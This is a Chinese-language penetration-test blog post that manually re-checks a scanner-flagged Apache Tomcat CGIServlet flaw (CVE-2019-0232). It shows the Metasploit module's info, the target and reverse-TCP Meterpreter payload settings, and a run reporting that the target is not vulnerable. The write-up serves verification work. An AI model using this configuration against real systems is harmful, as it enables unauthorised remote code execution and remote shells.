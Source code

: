 ```yaml
---
title: Sample Page
published: true
---
```


## Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

针对极光扫描器探测出的tomcat漏洞进行一次 `手工复测` .


### 所用到的工具  
| 序号        | 工具名称          | 测试方式 |  
|:-------------|:------------------|:------|  
| 1           | MSF | 手动  |

#### 目标网站分析
目标所使用的中间件采用 `Apache Tomcat/7.0.82`

![](https://github.com/cer1vk/cer1vk.github.io/blob/cer1vk/_posts/1.png?raw=true)

#### 准备

* 工具库查看

> msf5 > search Rank:excellent name:tomcat
> 3  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability

#### 载荷info
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > info

       Name: Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
     Module: exploit/windows/http/tomcat_cgi_cmdlineargs
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2019-04-10

Provided by:
  Yakov Shafranovich
  sinn3r <sinn3r@metasploit.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Apache Tomcat 9.0 or prior for Windows

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      8080             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path to CGI script
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits a vulnerability in Apache Tomcat's CGIServlet
  component. When the enableCmdLineArguments setting is set to true, a
  remote user can abuse this to execute system commands, and gain
  remote code execution.

References:
  https://cvedetails.com/cve/CVE-2019-0232/
  https://wwws.nightwatchcybersecurity.com/2019/04/30/remote-code-execution-rce-in-cgi-servlet-apache-tomcat-on-windows-cve-2019-0232/
  https://blog.trendmicro.com/trendlabs-security-intelligence/uncovering-cve-2019-0232-a-remote-code-execution-vulnerability-in-apache-tomcat/

```
#### 分析和利用
> Platform: Windows
> Arch: x86, x64 //符合64位处理器要求
- 填充目标地址 `RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'`  
- 填充目标端口 `RPORT      8080             yes       The target port (TCP)`,这里的端口改用实际的项目端口8181.

---  
设定目标参数和HK机参数,然后开始:

***目标机配置如下:***
```ruby
   Module options (exploit/windows/http/tomcat_cgi_cmdlineargs):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.71.18.235     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8181             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to CGI script
   VHOST                       no        HTTP server virtual host
```

***HK机配置如下:***
```ruby
   Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.71.70.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

===

#### 验证结果
```ruby
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run
[*] Started reverse TCP handler on 10.71.70.102:4444
[*] Checking if 10.71.18.235 is vulnerable
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable. Set ForceExploit to override.
[*] Exploit completed, but no session was created.
```
exp验证不通过.*说明目标不存在该漏洞*




#### 目标状态
![](https://github.com/cer1vk/cer1vk.github.io/blob/cer1vk/_posts/2.png?raw=true)


### 总结

针对漏洞扫描器给出的漏洞分析结果,对于精确度还是存疑的,这时候需要手工进行一次  `POC` 或者 `EXP`验证.如果验证的结果没能获取起初希望看到的效果,说明当下目标漏洞不可利用.

